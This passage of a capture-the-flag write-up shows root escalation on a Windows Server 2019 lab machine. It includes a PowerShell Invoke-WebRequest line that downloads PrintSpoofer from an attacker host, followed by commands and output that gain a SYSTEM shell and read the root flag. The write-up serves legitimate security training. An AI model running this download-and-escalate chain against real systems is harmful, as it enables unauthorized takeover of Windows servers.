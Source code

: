 It is worth noting we were the 2nd team to submit this flag.

# Saturn - Root

Onto privilege escalation now. We used the `systeminfo` command to tell us the Operating System of the Windows server

```python
c:\users\jupiter\documents>systeminfo
systeminfo

Host Name:                 SATURN
OS Name:                   Microsoft Windows Server 2019 Standard
OS Version:                10.0.17763 N/A Build 17763
```

It is worth noting that Windows Server 2019 is vulnerable to the PrintSpoofer exploit so this was obtained from Github and transferred onto the box using `Invoke-WebRequest`. Before all of this however, the `powershell` command was used to execute PowerShell which enabled us to use the below command

```python
Invoke-WebRequest -Uri http://10.10.14.19:8000/PrintSpoofer.exe -OutFile C:\Windows\System32\spool\drivers\color\ps.exe
```

PrintSpoofer was executed with the `whoami` command which told us we were SYSTEM

```python
C:\Windows\System32\spool\drivers\color>.\ps.exe -i -c whoami
.\ps.exe -i -c whoami
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
nt authority\system
```

Using PrintSpoofer again, we used the `cmd` command to give us a elevated cmd shell as SYSTEM

```python
C:\Windows\System32\spool\drivers\color>.\ps.exe -i -c cmd    
.\ps.exe -i -c cmd
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.17763.1282]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

We were then able to read the root flag, and get first blood on the FullPwn challenge!

```python
C:\Windows\system32>type C:\Users\Administrator\Desktop\root.txt
type C:\Users\Administrator\Desktop\root.txt
613d0a8b84f894ce93efcc2e4b2f2779
```
**Bonus**:
